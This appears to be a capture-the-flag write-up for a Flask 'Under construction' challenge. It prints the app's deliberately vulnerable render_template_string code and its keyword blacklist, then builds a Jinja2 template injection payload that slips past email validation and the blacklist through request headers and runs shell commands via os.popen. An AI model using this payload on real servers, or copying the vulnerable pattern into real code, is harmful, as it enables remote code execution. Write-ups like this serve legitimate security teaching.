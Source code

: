 # Under construction

![chall_head](images/chall_head.png)

## First look

![screen1](images/screen1.png)

The challenge also provides the code.

```py
#!/usr/bin/python3

from flask import Flask, Response, request, render_template_string
from validate_email import validate_email

UNDER_CONSTRUCTION_SAMPLE = """
<!DOCTYPE html>
<html>
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Under Construction</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-4bw+/aepP/YC94hEpVNVgiZdgIC5+VKNBQNGCHeKRQN+PtmoHDEXuppvnDJzQIu9" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.1/dist/js/bootstrap.bundle.min.js" integrity="sha384-HwwvtgBNo3bZJJLYd8oVXjrBZt8cqVSpeBNS5n7C8IVInixGAoxmnlMuBnhbgrkm" crossorigin="anonymous"></script>
</head>
<body style="background-image: url('{{url_for('static', filename='under-construction.jpg')}}'); background-repeat: no-repeat; background-size: cover; background-position: center; margin: 0; width: 100vw; height: 100vh;">
    <div style="position: absolute; left: 50%; top: 50%; transform: translate(-50%, -50%);" class="container">
        <h2 style="text-align: center; color: white;">Our shop is still under construction but you can get a 10% coupon code if you register as one of the first clients. You'll get an email with the coupon code once we complete constructing the wesbite.</h2>
        <form style="text-align: center; border: 2px solid white; padding: 25px;" method="POST" action="/subscribe">
            <div class="mb-3">
                <label style="color: white;" for="exampleInputEmail1" class="form-label">Email address</label>
                <input name="email" type="email" class="form-control" id="exampleInputEmail1" aria-describedby="emailHelp">
            </div>
            <button type="submit" class="btn btn-primary">Subscribe</button>
        </form>
    </div>
</body>
</html>
"""

BLACKLIST = ["{{", "}}", "_", "[", "]", "\\", "args", "form", "'"]

app = Flask(__name__)

@app.route("/", methods = ["GET"])
def challenge():
    return render_template_string(UNDER_CONSTRUCTION_SAMPLE)

@app.route("/subscribe", methods = ["POST"])
def subscribe():
    print("Im in the subscribe function")
    if ("email" in request.form and validate_email(request.form.get("email"), check_smtp = True, check_dns = True)):
        if (any([i in request.form.get("email") for i in BLACKLIST]) or len(request.form.get("email")) > 100):
            return render_template_string("Hacking attempt detected!")
        return render_template_string(f"Thanks for subscribing {request.form.get('email')}, you'll get coupon code once we complete developing our shop!")
    else:
        return render_template_string("No email was passed or email is invalid or doesn't really exist!")



app.run("0.0.0.0", 8080, debug = False)
```

With the source code, we can see that the program uses a function `validate_email`, then it checks a blacklist and ensure that that the payload does less than 100 chars.

If we bypass everything, the program executes `render_template_string` which can lead to SSTI(Server Side Template Injection).

Let's firstly try to bypass `validate_email`.

## First bypass

If we llok on the internet, we can quickly find that this is a python library, with a github repository. If we look at the issues on this github, we can find this one 

![screen2](images/screen2.png)

(https://github.com/syrusakbary/validate_email/issues/122)

So, we simply need to use an adress with `.com.com`.

Another problem arise if we use () in our email, one way to bypass this is by using  `"`, so the payload will be :

```
"payload"@gmail.com.com
```

## Second bypass

Now that we can freely put some string, we need to ensure that our payload : 
- does not contains `["{{", "}}", "_", "[", "]", "\\", "args", "form", "'"]`
- does less than 100 char

It's highly likely that we need to do a RCE(Remote Code Exceution) because there is nothing related to a flag in the source code.

Because `{{` and `}}` aren't allowed, we can only use `{%%}` to do a SSTI.

Let's try to print someting.

![screen3](images/screen3.png)

![screen4](images/screen4.png)

That worked !! 

What limits us is the `_` and `[]` blocking.

There is a trick in python to bypass that.

When we need to access attributes without using `_` and `[]`, we can use 

```
obj|attr(name)
```

But we can't put the name, because we need to use a string and `'` is blocked and `\"` is also blocked.

To bypass that, I used `request.headers.c`, and sent a header called `c` in the request.

After some research, I found a way of having os with that bypass

```
"{%print(cycler|attr(request.headers.c)|attr(request.headers.b)).os%}"@gmail.com.com
# with
c = __init__
b = __globals__
```

![screen5](images/screen5.png)

![screen6](images/screen6.png)

The problem here, is that using `.popen(request.headers.d).read()` is to long.

After searching a bit, I found

```
"{%print(lipsum|attr(request.headers.c)).os%}"@a.com.com
c: __globals__
```

Which is way shorter and also works.


So, the final payload is

```
"{%print(lipsum|attr(request.headers.c)).os.popen(request.headers.d).read()%}"@a.com.com
c: __globals__
d: <command>
```

![screen5](images/screen7.png)

![screen6](images/screen8.png)


![screen5](images/screen9.png)

![screen6](images/screen10.png)

And here we have the flag `ECW{327a6c4304ad5938eaf0efb6cc3e53dc}`
